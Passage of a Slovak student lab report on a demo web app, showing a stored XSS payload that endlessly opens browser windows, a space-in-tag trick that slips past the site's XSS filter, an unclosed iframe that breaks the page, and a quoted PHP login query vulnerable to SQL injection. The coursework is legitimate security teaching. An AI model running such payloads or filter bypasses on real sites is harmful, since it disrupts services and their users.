 Následne som ešte skúsil zadať rovnaký input do pola **Name**, ale tu mi kód nefungoval:
![](image-9.png)


Vycraftil som si javascript kód, ktorý vo while cykle stále otvára nové taby a okná v prehliadači.

```html
<script>window.close(); while(1){window.open("https://media.tenor.com/cvyRUp3tQWEAAAAC/apex-mirage.gif", "_blank");window.open("https://tenor.com/sk/view/oh-yeah-vector-despicable-me-dance-gif-16621015", "", "width=100%, height=100%");}</script>
```

Keď som to do input field zadal takto, vyhodilo mi to, že XSS attack detected, tak som skúsil za script pridať medzeru, takže výsledný kód vyzerá takto:

```html
<script >window.close(); while(1){window.open("https://media.tenor.com/cvyRUp3tQWEAAAAC/apex-mirage.gif", "_blank");window.open("https://tenor.com/sk/view/oh-yeah-vector-despicable-me-dance-gif-16621015", "", "width=100%, height=100%");}</script >
```

Toto už fungovalo a chat je znefunkčnený.


Stránku sa mi podarilo čiastočne znefunkčniť aj pridaním ```<iframe>```, ktorý som neuzavrel. Síce sa každý komentár ukladal, ale vkladal sa do iframe a tým pádom sa nevykresloval.


## 3.4 Code review
- Na adrese https://bit.demo-cert.sk/derave.phps nájdete časť zdrojového kódu webovej aplikácie napísanej v jazyku PHP.
- Nájdite v nej čo najviac zraniteľností a logický chýb. (aspon 3)
- Okomentujte ich a vyskúšajte ich pomenovať pomocou CWE identifikátorov.
- Bonus: Navrhnite odporúčania, ako problém odstrániť, prípadne opravte kód.
- Výsledný okomentovaný zdroják zahrnte do odovzdanej dokumentácie a odovzdajte do AIS. Ak odovzdávate PDF, vyskúšajte použiť nejaký code highlighter.


1. Zraniteľnosť na sql injection **CWE identifikátor: CWE-89**

```php
$sql = "SELECT * FROM users WHERE login='{$_REQUEST['login']}' AND password='{$_REQUEST['password']}'"; 
	$user = sql_fetch($sql);
```
